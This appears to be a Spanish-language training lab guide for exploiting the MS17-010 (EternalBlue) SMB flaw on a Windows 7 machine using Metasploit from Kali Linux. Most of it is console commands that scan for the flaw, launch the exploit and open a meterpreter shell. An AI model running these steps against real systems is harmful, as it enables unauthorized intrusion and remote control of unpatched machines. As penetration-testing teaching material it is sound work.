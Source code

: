 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  prueba

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
```
Search ms17_10
```
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```

**Exploiting**
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
**Post Exploitation**
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/

